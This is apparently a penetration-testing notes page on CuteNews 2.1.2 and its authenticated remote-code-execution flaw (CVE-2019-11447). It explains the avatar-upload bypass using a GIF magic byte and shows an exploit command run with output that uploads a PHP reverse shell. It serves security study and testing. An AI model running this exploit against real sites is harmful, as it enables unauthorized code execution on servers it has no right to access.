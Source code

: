 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# CuteNews

CuteNews is a lightweight, flat-file CMS designed primarily for managing and publishing news articles or blog posts without the need for a database backend. Developed in PHP, it stores content in plain text files, making it easier to deploy on minimal hosting environments. While its simplicity makes it attractive for small websites and personal blogs, its limited security mechanisms have led to multiple vulnerabilities over time.

## Authenticated RCE

CuteNews version `2.1.2` is affected by an arbitrary file upload vulnerability ([CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447)). This flaw lies in the way the application handles avatar uploads in the user profile section. Specifically, the `avatar_file` parameter passed to `index.php?mod=main&opt=personal` allows an attacker to upload a malicious file disguised as an image. Due to insufficient validation of the `$imgsize` variable in `/core/modules/dashboard.php`, the application fails to properly inspect the uploaded file’s content. This enables an attacker to manipulate the file’s header—for instance, by adding a GIF file signature—to bypass content filters and achieve RCE. A working [PoC](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) is available:

{% code overflow="wrap" %}
```bash
$ python3 exploit.py -l http://cn-instance -u test123 -p test123 -e test@mail.com
[+] CuteNews 2.1.2 Avatar Upload RCE exploit by ColdFusionX
​
[+] User exists ! Logged in Successfully
[^] Select your PHP file -> rev.php
​
[*] Adding Magic Byte to PHP file
[+] Upload Successful !!
[*] File location --> http://cn-instance/uploads/avatar_test123_test123.php
​
[^] Press y/n to trigger PHP file -> y
[*] Check listener for reverse shell
```
{% endcode %}

